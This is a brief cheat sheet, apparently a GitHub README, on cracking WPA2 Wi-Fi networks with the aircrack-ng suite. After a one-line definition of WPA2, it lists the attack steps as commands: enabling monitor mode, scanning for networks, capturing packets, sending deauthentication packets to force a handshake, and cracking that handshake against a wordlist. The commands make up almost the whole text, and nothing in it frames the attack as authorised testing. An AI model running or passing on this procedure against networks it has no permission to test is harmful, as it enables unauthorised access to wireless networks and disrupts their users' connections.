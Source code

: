 - WPA2: Wi-Fi Protected Access (WPA) and Wi-Fi Protected Access II (WPA2) are two security protocols and security certification programs developed by the Wi-Fi Alliance to secure wireless computer networks. The Alliance defined these in response to serious weaknesses researchers had found in the previous system, Wired Equivalent Privacy (WEP).

- List wireless interfaces supporting monitor mode
  - airmon-ng
 
- Enable monitor mode
  - airmon-ng start wlan0

- Scan for WiFi networks
  - airodump-ng wlan0mon
  
- Packet Capture
  - airodump-ng -c [channel] --bssid [bssid] -w /root/Desktop/ wlan0mon

- Inject packets/Capture Handshake
  - aireplay-ng -0 10 -a [router bssid] -c [client bssid] wlan0mon

- Cracking
  - aircrack-ng -a2 -b [router bssid] -w /path/to/wordlist /root/Desktop/*.cap
